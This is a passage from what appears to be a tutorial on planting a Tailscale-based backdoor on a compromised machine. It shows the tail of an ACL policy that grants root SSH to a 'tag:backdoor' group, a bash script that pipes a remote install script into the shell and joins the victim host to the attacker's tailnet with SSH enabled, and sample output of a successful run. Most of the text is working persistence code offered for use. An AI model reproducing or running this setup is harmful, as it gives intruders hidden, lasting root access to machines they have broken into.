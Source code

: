 ```hcl
      }
    ],
    
    ssh = [
      {
        action = "accept",
        src    = ["autogroup:admin"],
        dst    = ["tag:backdoor"],
        users  = ["autogroup:nonroot", "root"]
      }
    ]
  })
}
```  



At this point you are able to connect the compromised machine to your tailnet.  
In order to do that, you will need the following bash script:   
```sh
#!/bin/bash

# Check if an argument (auth key) is provided
if [ -z "$1" ]; then
  echo "Usage: $0 <oauth-key>"
  exit 1
fi

OAUTH_KEY=$1

# Install Tailscale
sudo curl -fsSL https://tailscale.com/install.sh | sh

# Start Tailscale with the provided auth key and enable SSH
sudo tailscale up --auth-key=$OAUTH_KEY --advertise-tags=tag:backdoor --ssh

# Show Tailscale status
sudo tailscale status
```  


Launch the script with the following command:  

```console
sh tailscale.sh <YOUR-TAILSCALE-OAUTH-KEY-HERE>
```  

If everything went good, you should see an output similar to the following:  
```console
...
...
Installation complete! Log in to start using Tailscale by running:

sudo tailscale up
100.118.41.91   target-machine-name-here          xivivixi936@ linux   -
```  
